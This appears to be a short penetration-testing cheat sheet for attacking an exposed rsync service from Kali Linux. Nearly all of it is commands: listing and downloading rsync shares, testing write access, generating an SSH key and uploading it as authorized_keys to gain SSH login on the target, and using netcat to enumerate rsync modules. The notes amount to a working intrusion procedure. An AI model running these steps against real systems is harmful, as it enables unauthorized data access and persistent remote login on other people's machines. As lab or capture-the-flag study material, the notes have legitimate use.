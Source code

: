 ```yaml
---
category: Uncategorized
tags: []
---
```


#### SSH key upload

```bash - kali
rsync rsync://$TARGET
```

```bash - kali
rsync rsync://$TARGET/$FOLDER
```

Download share with it's contents:
```bash - kali
rsync -av rsync://$TARGET/$FOLDER ./rsyncfiles
```

Test to see if we can upload files:

```bash - kali
echo "test" > test
```

```bash - kali
rsync -av test.txt rsync://$TARGET/$FOLDER
```

```bash - kali
rsync -av --list-only rsync://$TARGET/$FOLDER
```

Next, we'll create ssh keys and upload so we can ssh into target:

```bash - kali
ssh-keygen
```

```bash - kali
cp /home/kali/.ssh/id_rsa* .
```

```bash - kali
mkdir .ssh && mv id_rsa* .ssh
```

Change the public key to authorized_keys

```bash - kali
mv id_rsa.pub authorized_keys
```

Transfer the key files to the target like so:
```bash - kali
rsync -a --relative ./.ssh  rsync://$TARGET/$FOLDER/
```

```bash - kali
ssh $USER@$TARGET
```

---

#### nc enumeration

```bash - kali
nc -nvv $TARGET 873
```

```bash - kali
@RSYNCD: 31.0  
```

```bash - kali
#list
```


Now lets try to enumerate

```bash - kali
nc -nvv $TARGET 873
```

```bash - kali
@RSYNCD: 31.0  
```

```bash - kali
$FOLDER
```

`@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g`    <--- This means you need the password